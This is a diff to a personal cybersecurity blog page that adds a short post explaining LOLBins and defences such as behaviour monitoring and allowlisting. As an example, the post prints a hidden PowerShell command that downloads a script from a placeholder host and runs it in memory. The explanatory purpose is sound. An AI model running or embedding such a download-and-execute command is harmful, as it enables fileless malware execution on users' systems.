

Before and after one commit to Lsec47/Lsec.gifthub.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 129-1078 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -57,5 +57,29 @@
     <p>3. Be careful of suspicious links and emails.</p>
     <p>Stay tuned for more tips as I continue learning and sharing!</p>
   </div>
+  <div class="section">
+    <h2>New Blog Post: What Are LOLBins?</h2>
+    <p>Most people think cyberattacks use viruses—but advanced hackers can attack without using any malware.</p>
+    <p>They use something called <strong>LOLBins</strong>: tools like <code>PowerShell</code> and <code>cmd.exe</code> that are already built into your computer.</p>
+
+    <p>Here's an example of a command that runs code without saving any files:</p>
+    <code style="display: block; background: #222; padding: 10px; border-radius: 6px; color: #00ff00;">
+      powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://example.com/script')"
+    </code>
+
+    <p>These attacks are hard to detect because they look like normal admin activity. Defending against them means monitoring behavior—not just files.</p>
+
+    <h3 style="color:#00ffcc;">How to Defend:</h3>
+    <ul style="list-style: none; padding-left: 0;">
+      <li>• Watch for unusual use of built-in tools like PowerShell</li>
+      <li>• Use application allowlisting</li>
+      <li>• Train users to spot odd system behavior</li>
+    </ul>
+
+    <p>If you enjoyed this tip and want more advanced content, you can support me here:</p>
+    <a href="https://www.buymeacoffee.com/Lsec47" target="_blank" class="button">
+      Support My Cyber Journey
+    </a>
+  </div>
 </body>
 </html>
```
